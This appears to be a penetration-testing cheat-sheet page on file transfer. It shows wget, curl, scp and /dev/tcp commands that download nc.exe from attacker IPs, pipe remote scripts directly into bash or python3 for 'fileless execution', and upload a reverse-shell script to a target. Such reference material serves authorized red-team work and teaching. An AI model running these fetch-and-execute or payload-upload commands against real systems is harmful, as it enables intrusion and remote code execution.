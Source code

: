 {% tabs %}
{% tab title="Download" %}
[Wget](https://www.gnu.org/software/wget/) is a CLI utility for retrieving files from the web using HTTP, HTTPS, and FTP protocols. It supports recursive downloads, resume capabilities, and background operation. Offensive operators often use `wget` to fetch binaries or scripts from remote servers because it is widely available on Linux systems and can operate quietly in automated workflows.

{% code overflow="wrap" %}
```bash
wget http://10.10.10.10/nc.exe -O nc.exe

# Fileless execution (-q: quiet mode, -O: specifies the output, -O-: redirects output to stdout)
wget -qO- https://172.16.10.1/script.py | python3
```
{% endcode %}

[Curl](https://curl.se/) is a CLI tool and library for transferring data with URLs, supporting a wide range of protocols including HTTP, HTTPS, FTP, and SCP. It allows fine-grained control over headers, authentication, and request methods, making it useful for downloading files, interacting with APIs, or exfiltrating data in offensive operations.

```bash
curl http://10.10.10.10/script.sh -o /tmp/script.sh

# Fileless execution
curl https://172.16.10.1/script.sh | bash
```

[SCP](https://linux.die.net/man/1/scp) (Secure Copy) is a CLI utility for securely transferring files between hosts over SSH. It provides encryption for both authentication and data transfer, making it a reliable method to move files across remote systems in penetration testing or red team engagements while maintaining confidentiality and integrity.

```bash
scp user@172.16.10.10:/tmp/nc.exe ./nc.exe
```

[`/dev/tcp`](https://tldp.org/LDP/abs/html/devref1.html) can also be used for fileless execution:

```bash
# Connect to the target webserver
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET request
echo -e "GET /script.sh HTTP/1.1\n\n">&3

# Print the response
cat <&3
```
{% endtab %}

{% tab title="Upload" %}
The SCP utility can be used to upload a file to the target:

```bash
scp revshell.sh user@172.16.10.10:/tmp/revshell.sh
```
{% endtab %}
{% endtabs %}
